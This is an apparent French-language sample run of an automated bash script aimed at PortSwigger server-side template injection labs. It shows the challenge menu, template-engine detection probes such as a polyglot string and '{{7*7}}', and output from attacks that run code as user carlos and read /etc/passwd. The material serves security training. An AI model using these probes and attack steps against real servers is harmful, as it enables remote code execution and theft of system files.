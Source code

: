 # MANPAGE

Voici un **exemple exhaustif d’exécution** du script automatisé présenté ci-dessus, appliqué à un lab PortSwigger SSTI (par exemple, le lab [Basic server-side template injection][3][5]) :

---

## 1. Lancement du script

```bash
$ bash ssti_automated.sh
```

---

## 2. Menu affiché

```
PortSwigger SSTI Challenges - Analyse, Attaque, Contrôle (détection moteur auto)
--------------------------------------------------------------------------
URL du lab : https://YOUR-LAB-ID.web-security-academy.net
Paramètre vulnérable : message

1. [1] Exploiting basic server-side template injection
2. [2] Exploiting SSTI to execute arbitrary code
3. [3] Bypassing input filters to exploit SSTI
4. [4] Exploiting SSTI in a sandboxed environment (Twig)
5. [5] Exploiting SSTI for remote code execution
6. [6] Exfiltrating data via SSTI
q. Quit

Choisissez un challenge (1-6, q pour quitter) :
```

---

## 3. Exemple : Challenge 1 — Basic server-side template injection

Supposons que l’utilisateur choisit **1**.

### Analyse

```
[1] Analyse : Exploiting basic server-side template injection
[Analyse] Détection du moteur de template employé...
  > Injection du payload polyglotte : ${{<%[%'"}}%\
    => Réponse anormale détectée (possible SSTI).
  > Test jinja2 : {{7*7}}
  > Test twig : {{7*7}}
  > Test velocity : #set($a=7*7) $a
  > Test erb : <%= 7*7 %>
    => Moteur détecté : ERB (Ruby)
  > Test freemarker : ${7*7}
```

### Attaque

```
[1] Attaque : Injection mathématique (erb)
<-- Affichage du résultat de la commande curl -->
49
```

### Contrôle

```
[1] Contrôle : Résultat attendu '49'
    => SSTI confirmée.
```

---

## 4. Exemple : Challenge 2 — Exploiting SSTI to execute arbitrary code

Supposons que l’utilisateur choisit **2**.

### Analyse

```
[2] Analyse : Exploiting SSTI to execute arbitrary code
[Analyse] Détection du moteur de template employé...
  > Injection du payload polyglotte : ${{<%[%'"}}%\
    => Réponse anormale détectée (possible SSTI).
  > Test jinja2 : {{7*7}}
  > Test twig : {{7*7}}
  > Test velocity : #set($a=7*7) $a
  > Test erb : <%= 7*7 %>
    => Moteur détecté : ERB (Ruby)
  > Test freemarker : ${7*7}
```

### Attaque

```
[2] Attaque : Exécution de code (erb)
<-- Affichage du résultat de la commande curl -->
uid=1000(carlos) gid=1000(carlos) groups=1000(carlos)
```

### Contrôle

```
[2] Contrôle : Résultat attendu 'uid='
    => RCE confirmée.
```

---

## 5. Exemple : Challenge 6 — Exfiltrating data via SSTI

Supposons que l’utilisateur choisit **6**.

### Analyse

```
[6] Analyse : Exfiltrating data via SSTI
[Analyse] Détection du moteur de template employé...
  > Injection du payload polyglotte : ${{<%[%'"}}%\
    => Réponse anormale détectée (possible SSTI).
  > Test jinja2 : {{7*7}}
  > Test twig : {{7*7}}
  > Test velocity : #set($a=7*7) $a
  > Test erb : <%= 7*7 %>
    => Moteur détecté : ERB (Ruby)
  > Test freemarker : ${7*7}
```

### Attaque

```
[6] Attaque : Lecture de fichier (erb)
<-- Affichage du résultat de la commande curl -->
root:x:0:0:root:/root:/bin/bash
...
```

### Contrôle

```
[6] Contrôle : Résultat attendu 'root:x'
    => Exfiltration confirmée.
```

---

## 6. Changement de challenge ou sortie

L’utilisateur peut alors choisir un autre numéro ou `q` pour quitter.

---
